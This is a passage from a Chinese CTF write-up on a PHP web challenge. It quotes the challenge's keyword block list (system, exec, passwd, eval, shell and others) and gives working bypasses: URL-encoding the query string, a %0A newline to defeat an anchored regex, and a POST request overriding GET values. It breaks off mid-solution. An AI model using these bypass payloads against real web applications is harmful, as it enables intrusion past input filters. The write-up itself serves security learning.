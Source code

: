 
有一些经典考点，也有一些之前没见过的。[wp](https://blog.csdn.net/weixin_44037296/article/details/111186863)护体，开始解题。[\$_SERVER](https://www.php.net/manual/zh/reserved.variables.server.php)是一个包含了诸如头信息（header）、路径（path）、以及脚本位置（script locations）等信息的 array。题目中使用的\$_SERVER['QUERY_STRING']返回查询(query)的字符串，也就是GET请求中?后的内容。来看看需要绕过什么。

```php
if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}
```

\$_SERVER['QUERY_STRING']有一个特点：不会对传入键值对进行url解码。等于说我们把查询字符串全部url编码后这些正则全部没用。下一关。

```php
if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');
```

经典正则漏洞。像这种`^xxx$`的正则只需要在末尾加个换行符%0A就能绕过了。当前payload：

- /1nD3x.php?%64%65%62%75=%61%71%75%61_is_%63%75%74%65%0A

下一关。

```php
if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 
```

要求所有查询（post和get）的值不能有英文。这里又是个特性，虽然\$_REQUEST同时接收GET和POST的传参，但POST拥有更高的优先级，当\$_GET和\$_POST中的键相同时，\$_POST的值将覆盖\$_GET的值。那解法显而易见了，用bp发个post包，post数据发送和get同名的参数。

```
POST /1nD3x.php?%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0A HTTP/1.1
Host: 88734034-7928-4073-b847-9974a354e8f5.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

debu=1
```
